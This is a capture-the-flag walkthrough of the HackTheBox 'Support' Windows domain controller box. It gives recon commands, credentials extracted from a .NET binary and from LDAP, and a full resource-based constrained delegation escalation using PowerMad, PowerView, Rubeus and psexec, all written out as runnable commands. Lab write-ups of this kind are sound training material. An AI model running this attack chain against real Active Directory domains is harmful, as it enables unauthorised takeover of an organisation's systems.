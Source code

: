 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

---

### Recon

#### Nmap Full TCP Scan
```
nmap -p- --min-rate 10000 10.10.11.174
```
Key Ports:
- 53 [DNS](DNS)
- 88 [Kerberos](Kerberos)
- 389 [LDAP](LDAP)
- 445 [SMB](SMB)
- 5985 [WinRM](WinRM.md)

#### Named Contexts from LDAP
```
ldapsearch -h support.htb -x -s base namingcontexts
```
Main context:
```
DC=support,DC=htb
```

#### Hosts File Entries
```
10.10.11.174 dc.support.htb support.htb
```

---

### SMB Enumeration

#### List Shares
```
smbclient -N -L //support.htb
```
Interesting share:
```
support-tools
```

#### Access support-tools
```
smbclient -N //support.htb/support-tools
```
Found:
```
UserInfo.exe.zip
```

---

### Reverse Engineering UserInfo.exe

1. Extracted `UserInfo.exe.zip`
2. Ran `.\UserInfo.exe find -first '*'` to enumerate users
3. Located LDAP bind credentials in C# source via DNSpy:
   - **Username**: `support\ldap`
   - **Password (after decoding)**: `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

---

### LDAP Search with Credentials
```
ldapsearch -h support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
```

Found account:
```
support
info: Ironside47pleasure40Watchful
```

### Evil-WinRM Shell as support
```
evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'
```
Got user flag:
```
C:\Users\support\Desktop> type user.txt
```

---

### BloodHound Analysis
- **Group**: Shared Support Accounts
- **Privilege**: GenericAll on `DC.SUPPORT.HTB`

---

### RBCD Attack (Resource-Based Constrained Delegation)

#### Upload tools:
- PowerView.ps1
- PowerMad.ps1
- Rubeus.exe

#### Add Fake Computer
```
New-MachineAccount -MachineAccount 0xdfFakeComputer -Password $(ConvertTo-SecureString '0xdf0xdf123' -AsPlainText -Force)
```

#### Set RBCD ACL
```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;${fakesid})"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Set-DomainObject -Identity "DC" -Set @{"msds-allowedtoactonbehalfofotheridentity"=$SDBytes}
```

#### Get Hash and Impersonate
```
Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb
Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:<RC4_HASH> /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```

---

### Remote Shell as Administrator

#### Export ticket and convert:
```
base64 -d ticket.kirbi.b64 > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
```

#### Use psexec:
```
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

Got root flag:
```
C:\Users\Administrator\Desktop> type root.txt
```

---

### Beyond Root: Windows vs Linux Auth

- On Linux, captured cleartext LDAP credentials via Wireshark
- On Windows, NTLMSSP is used and credentials are not in plaintext
- Wireshark shows `simple` vs `sasl` difference in `bindRequest`

---

### Summary
- **Initial Foothold**: Reversed a .NET EXE to extract LDAP creds
- **User Access**: Found support user password in LDAP info field
- **Privilege Escalation**: Performed RBCD by adding a fake computer and impersonating Administrator via S4U2self/S4U2proxy